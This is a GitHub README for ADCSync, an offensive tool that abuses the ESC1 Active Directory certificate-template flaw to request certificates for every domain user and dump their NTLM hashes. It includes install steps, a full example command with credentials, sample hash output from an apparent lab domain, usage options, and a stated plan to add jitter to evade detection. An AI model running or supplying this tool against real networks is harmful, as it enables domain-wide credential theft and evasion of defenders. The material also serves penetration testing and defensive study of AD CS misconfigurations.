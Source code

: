 # ADCSsync

This is a tool I whipped up together quickly to DCSync utilizing ESC1. It is quite slow but otherwise an effective means of performing a makeshift DCSync attack without utilizing [DRSUAPI](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or [Volume Shadow Copy](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#volume-shadow-copy). 

This is the first version of the tool and essentially just automates the process of running Certipy against every user in a domain. It still needs a lot of work and I plan on adding more features in the future for authentication methods and automating the process of finding a vulnerable template.

```
python3 adcsync.py -u clu -p theperfectsystem -ca THEGRID-KFLYNN-DC-CA -template SmartCard -target-ip 192.168.0.98 -dc-ip 192.168.0.98 -f users.json -o ntlm_dump.txt

    ___    ____  ___________
   /   |  / __ \/ ____/ ___/__  ______  _____
  / /| | / / / / /    \__ \/ / / / __ \/ ___/
 / ___ |/ /_/ / /___ ___/ / /_/ / / / / /__
/_/  |_/_____/\____//____/\__, /_/ /_/\___/
                         /____/

Grabbing user certs:
100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 105/105 [02:18<00:00,  1.32s/it]
THEGRID.LOCAL/shirlee.saraann::aad3b435b51404eeaad3b435b51404ee:68832255545152d843216ed7bbb2d09e:::
THEGRID.LOCAL/rosanne.nert::aad3b435b51404eeaad3b435b51404ee:a20821df366981f7110c07c7708f7ed2:::
THEGRID.LOCAL/edita.lauree::aad3b435b51404eeaad3b435b51404ee:b212294e06a0757547d66b78bb632d69:::
THEGRID.LOCAL/carol.elianore::aad3b435b51404eeaad3b435b51404ee:ed4603ce5a1c86b977dc049a77d2cc6f:::
THEGRID.LOCAL/astrid.lotte::aad3b435b51404eeaad3b435b51404ee:201789a1986f2a2894f7ac726ea12a0b:::
THEGRID.LOCAL/louise.hedvig::aad3b435b51404eeaad3b435b51404ee:edc599314b95cf5635eb132a1cb5f04d:::
THEGRID.LOCAL/janelle.jess::aad3b435b51404eeaad3b435b51404ee:a7a1d8ae1867bb60d23e0b88342a6fab:::
THEGRID.LOCAL/marie-ann.kayle::aad3b435b51404eeaad3b435b51404ee:a55d86c4b2c2b2ae526a14e7e2cd259f:::
THEGRID.LOCAL/jeanie.isa::aad3b435b51404eeaad3b435b51404ee:61f8c2bf0dc57933a578aa2bc835f2e5:::
```

## Introduction
ADCSync uses the ESC1 exploit to dump NTLM hashes from user accounts in an Active Directory environment. The tool will first grab every user and domain in the Bloodhound dump file passed in. Then it will use Certipy to make a request for each user and store their PFX file in the certificate directory. Finally, it will use Certipy to authenticate with the certificate and retrieve the NT hash for each user. This process is quite slow and can take a while to complete but offers an alternative way to dump NTLM hashes. 


## Installation
```
git clone https://github.com/JPG0mez/adcsync.git
cd adcsync
pip3 install -r requirements.txt
```

## Usage

To use this tool we need the following things:

1. Valid Domain Credentials
2. A user list from a bloodhound dump that will be passed in.
3. A template vulnerable to ESC1 (Found with Certipy find)


```
# python3 adcsync.py --help
    ___    ____  ___________                 
   /   |  / __ \/ ____/ ___/__  ______  _____
  / /| | / / / / /    \__ \/ / / / __ \/ ___/
 / ___ |/ /_/ / /___ ___/ / /_/ / / / / /__  
/_/  |_/_____/\____//____/\__, /_/ /_/\___/  
                         /____/              

Usage: adcsync.py [OPTIONS]

Options:
  -f, --file TEXT      Input User List JSON file from Bloodhound  [required]
  -o, --output TEXT    NTLM Hash Output file  [required]
  -ca TEXT             Certificate Authority  [required]
  -dc-ip TEXT          IP Address of Domain Controller  [required]
  -u, --user TEXT      Username  [required]
  -p, --password TEXT  Password  [required]
  -template TEXT       Template Name vulnerable to ESC1  [required]
  -target-ip TEXT      IP Address of the target machine  [required]
  --help               Show this message and exit.

```

## TODO
* Support alternative authentication methods such as NTLM hashes and ccache files
* Automatically run "certipy find" to find and grab templates vulnerable to ESC1
* Add jitter and sleep options to avoid detection
* Add type validation for all variables


## Acknowledgements
* [puzzlepeaches](https://github.com/puzzlepeaches): Telling me to hurry up and write this
* [ly4k](https://github.com/ly4k/Certipy): For Certipy
* [WazeHell](https://github.com/WazeHell/vulnerable-AD): For the script to set up the vulnerable AD environment used for testing
